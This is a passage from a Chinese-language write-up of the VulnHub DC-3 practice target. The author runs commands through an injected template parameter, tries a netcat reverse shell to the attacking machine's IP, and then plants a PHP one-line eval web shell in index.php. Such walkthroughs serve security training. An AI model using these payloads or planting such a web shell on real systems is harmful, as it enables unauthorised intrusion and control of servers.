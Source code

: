 ![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC3/10.png)

尝试访问模板预览 `http://192.168.141.138/index.php?tp=1&templateStyle=4&cmd=whoami`

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/DC/DC3/11.png)

ok，命令成功执行，下面直接准备回弹 shell

kali 开启监听
```bash
nc -lvp 4444
```

访问 `http://192.168.141.138/index.php?tp=1&templateStyle=4&cmd=nc%20-nv%20192.168.141.134%204444%20-e%20/bin/bash`

等待了半天,没弹回来,什么鬼,换个回弹方法试试,回弹方法见 [后渗透](../../../笔记/RedTeam/后渗透/后渗透.md#Linux) Linux 下回弹 shell 部分

注: 这里试了半天,用了很多方法都没有回弹成功,只好暂时另辟蹊径了

到 index.php 里加个一句话把
```php
<?php eval($_POST[1]);?>
```

